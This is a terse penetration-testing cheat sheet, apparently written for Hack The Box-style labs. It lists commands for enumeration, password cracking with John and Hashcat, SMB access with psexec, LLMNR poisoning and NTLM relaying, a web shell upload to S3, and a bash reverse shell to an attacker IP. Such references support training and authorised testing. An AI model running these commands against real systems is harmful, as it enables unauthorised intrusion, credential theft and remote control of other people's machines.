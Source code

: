 # Tools
Helpful resources
 - https://gowthams.gitbook.io/bughunter-handbook/  (quick reference)
 - https://exploit-notes.hdks.org (quick reference) 
 - https://portswigger.net/web-security/dashboard
 - https://cloud.hacktricks.xyz/welcome/readme
 - https://gtfobins.github.io/gtfobins/vi/#sudo
### Metasploit
 - use `exploit/...`
 - `show options`
 - `run`
 - After u r in a shell, u can put it in background using `background`.
 - Upgrade most recently opened session `sessions -u -1`.


### ZAP
 - `Tools -> Spider`
 - `Analyze -> Scan Policy Manager` remove the things u do not want to scan for, like if no DB, why SQL scanning?
 - see https://tryhackme.com/room/dastzap for authenticated scan details.

### Redis
 - `sudo apt install redis-tools`
 - `redis-cli -h {target_IP}`
 - `info`
 - `select 0` select db with index number.
 - `keys *`, list keys.
 - `get <key>`.

### xfreerdp
 - `xfreerdp /u:administrator  /v:10.129.1.13` try to connect without password.

### gobuster
 - `gobuster dir -u 10.129.145.11 -w ~/SecLists/Discovery/Web-Content/common.txt`

### mongo
 - ./mongo mongodb://{target_IP}:27017
 - help
 - show dbs;
 - use <db_name>;
 - show collections;
 - db.<collection_name>.find().pretty();

### rsync
 - `rsync --list-only 10.129.204.156::` list directories.
 - `rsync --list-only 10.129.204.156::public` list files within directory, here named public.
 - `rsync {target_IP}::public/flag.txt flag.txt` bring remote flag.txt in my machine.

### Mysql
 - `mysql -h <ip> -u root` to login.
 - SHOW databases; : Prints out the databases we can access.
 - USE {database_name}; : Set to use the database named {database_name}.
 - SHOW tables; : Prints out the available tables inside the current database.
 - SELECT * FROM {table_name}; : Prints out all the data from the table {table_name}.

### AWS s3
 - aws --endpoint=http://s3.thetoppers.htb s3 ls
 - aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
 - `aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb` to upload

### SSH tunneling
 - `ssh -L 1234:localhost:5432 christine@{target_IP}` locally we will be listening to 1234

### SMB
 - `smbclient \\\\10.10.10.131\\ADMIN$ -U Administrator` list.
 - `smbclient -L 10.129.27.203 -U administrator`.
 - `python psexec.py username:password@hostIP`.
 -  `psexec.py administrator@10.10.10.131`.

### John
 - `zip2john backup.zip > zip.hashes` dumps hashes to file.
 - `john zip.hashes` cracks the password.

### Hashcat
 - `hashcat -a 0 -m 0 admin_hash.txt /usr/share/wordlists/rockyou.txt` crack md5.
 - `hashcat -m 5600 hash.txt rockyou.txt` crach ntlm.

## Scanning
### nmap
 - `nmap --script=smb2-security-mode.nse -p445 <network>/24` find devices with smb signing disabled.
### Rustscan
 - `./rustscan -a 10.129.95.185 -r 1-65535` maybe use rustscan to find open ports first, and then use nmap for service detection and stuff.
### sqlmap
 - `sqlmap -u "http://10.129.29.21/dashboard.php?search=%27" --cookie="PHPSESSID=f0mn05nbrdadh5164gavl9q4un"`

### Responder
 - `sudo ./test/bin/python Responder.py -I vboxnet0 -rdwv` listen and respond for LLMNR poisioning.
 - `impacket-ntlmrelayx -tf targets.txt -smb2support` pass the hash, targets.txt has victims ip, `-i` to get interactive smb shell, `-e meterpreter.exe`.

## Upgrading shell with TTY session
 - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
### bash
 - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`, reverse shell.
 - `sudo -l` check sudo permissions.
